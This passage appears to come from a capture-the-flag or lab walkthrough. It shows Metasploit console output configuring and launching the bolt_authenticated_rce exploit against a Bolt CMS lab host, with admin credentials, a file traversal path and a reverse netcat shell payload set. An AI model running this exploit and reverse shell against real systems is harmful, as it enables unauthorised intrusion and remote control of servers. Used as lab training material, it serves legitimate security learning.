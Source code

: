 ```bash
> set LPORT 9999
LPORT => 9999
```
```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > show options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Traversal path from "/files" on the web server to "/root" on the server
   PASSWORD             boltadmin123           yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               10.10.195.64           yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                8000                   yes       The target port (TCP)
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME             bolt                   yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addre
                                       sses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.227.231    yes       The listen address (an interface may be specified)
   LPORT  9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/bolt_authenticated_rce) > 
```
```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.10.227.231:9999 
[*] Running automatic check ("set AutoCheck false" to disable)
```